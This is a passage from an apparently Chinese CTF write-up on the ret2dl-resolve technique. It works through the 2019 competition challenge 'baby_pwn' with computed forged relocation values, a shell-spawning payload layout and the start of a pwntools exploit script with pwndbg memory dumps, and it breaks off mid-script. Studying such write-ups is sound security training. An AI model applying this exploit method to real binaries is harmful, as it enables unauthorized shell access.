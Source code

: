 r_info : 要控制其找到蓝色区域，只要使得r_info低8位为`0x07`，高位为`(蓝色区域地址 - ELF Symbol Table基址)*0x10`，即r_info = (0x804a06c - 0x080481DC)*0x10 + 0x07 = `0x1e907`

st_name : 要控制其找到绿色区域，只要使得st_name为`绿色区域地址 - ELF String Table基址`，即st_name = 0x0804a080 - 0x0804827C =`0x1e04`  

构造好了，怎么触发并且getshell呢？

要想手动触发恶意`dl_runtime_resolve`，只需将reloc_arg压入栈中然后将程序执行流导向`plt[0]`即可。

此例为`payload = padding + p32(plt0addr) + p32(reloc_arg) + 'AAAA' + p32(0x804a040)`，其中`padding`为溢出到返回地址之前的填充，`'AAAA'`为执行完恶意函数后的返回地址，`0x804a040`为传递给恶意函数的参数，即`/bin/sh`地址。

---

## 例：2019第12届全国大学生信息安全竞赛 baby_pwn

checksec:

![5cbee6bda0317](https://i.loli.net/2019/04/23/5cbee6bda0317.png)

![5cbee70260cd4](https://i.loli.net/2019/04/23/5cbee70260cd4.png)

![5cbee70b576f8](https://i.loli.net/2019/04/23/5cbee70b576f8.png)

明显的栈溢出，但是整个程序没有可以泄露信息的地方。

可以使用ret2dl-resolve攻击。

第一次溢出利用read往bss写入构造的结构体，控制返回到vuln()进行第二次输入。

第二次溢出控制执行流到plt[0\]，并将所需参数压栈。

getshell。

exp:

```python
from pwn import *

io = process('./pwn')
elf = ELF('./pwn')
#io = remote('da61f2425ce71e72c1ef02104c3bfb69.kr-lab.com', 33865)

context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']


'''
before:
pwndbg> x/64wx 0x804a040
0x804a040:    0xf7f44cc0    0x00000000    0x00000000    0x00000000

0x804a050:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a060:    0xf7f445a0    0xf7f44d60    0x00000000    0x00000000

0x804a070:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a080:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a090:    0x00000000    0x00000000    0x00000000    0x00000000
after:
pwndbg> x/32wx 0x0804a040
0x804a040:    0x6e69622f    0x0068732f    0x41414141    0x41414141

0x804a050:    0x41414141    0x0804a048    0x0001e907    0x41414141
0x804a060:    0x41414141    0x41414141    0x41414141    0x00001e04

0x804a070:    0x00000000    0x00000000    0x00000012    0x41414141
0x804a080:    0x74737973    0x00006d65    0x00000000    0x00000000
```